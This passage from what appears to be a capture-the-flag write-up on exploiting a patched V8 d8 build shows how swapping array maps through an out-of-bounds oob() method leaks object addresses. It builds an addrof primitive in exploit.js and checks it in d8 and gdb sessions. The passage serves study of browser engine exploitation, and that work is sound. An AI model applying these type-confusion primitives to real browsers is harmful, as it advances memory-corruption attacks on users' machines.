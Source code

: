And look - so beautifully aligned!

### Leaking Object Addresses

What  happens if we overwrite the map of an object array with the map of a float array? Logic dictates that it would **treat it as a double rather than a pointer**, resulting in a leak of the location of `obj1`! Let's try it.

```javascript
d8> var map_float = float_arr.oob()
d8> obj_arr.oob(map_float)
d8> ftoi(obj_arr[0]).toString(16)
"3a38af8904f1"
```

We leak `0x3a38af8904f1` - which is indeed the location of `obj1`! We therefore can leak the location of objects. We call this an `addrof` primitive, and we can add another function to our `exploit.js` to simplify it:

```javascript
var float_arr = [1.5, 2.5];
var map_float = float_arr.oob();

var initial_obj = {a:1};	// placeholder object
var obj_arr = [initial_obj];
var map_obj = obj_arr.oob();

function addrof(obj) {
    obj_arr[0] = obj;			// put desired obj for address leak into index 0
    obj_arr.oob(map_float);		// change to float map
    let leak = obj_arr[0];		// read address
    obj_arr.oob(map_obj);		// change back to object map, to prevent issues down the line
    return ftoi(leak);			// return leak as an integer
}
```

{% hint style="warning" %}
Really importantly, the reason we can set `map_obj` and get the map is because `obj_arr.oob()` will return the value **as a double**, which we noted before! If it returned that object itself, the program would **crash**. You can see this in my [Download Horsepower](../picoctf-2021-download-horsepower.md#grabbing-maps) writeup.
{% endhint %}

We can load it up in d8 ourselves and compare the results:

```javascript
$ gdb d8 
gef➤  run --allow-natives-syntax --shell exploit.js
V8 version 7.5.0 (candidate)
d8> obj = {a:1}
{a: 1}
d8> %DebugPrint(obj)
0x031afef4ebe9 <Object map = 0x3658c164ab39>
{a: 1}
d8> addrof(obj).toString(16)
"31afef4ebe9"
```
